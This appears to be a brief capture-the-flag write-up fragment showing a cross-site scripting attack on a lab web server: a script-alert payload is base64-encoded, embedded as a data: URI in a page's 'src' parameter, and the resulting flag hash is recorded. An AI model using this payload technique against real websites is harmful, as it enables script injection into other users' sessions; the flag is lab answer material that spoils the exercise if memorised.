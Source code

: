 
```
echo "<script>alert(1337)</script>" | base64
PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=
```

<object data="http://10.12.100.231/images/nsa_prism.jpg"> </object>

data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

url:

http://10.12.100.231/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

flag

928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/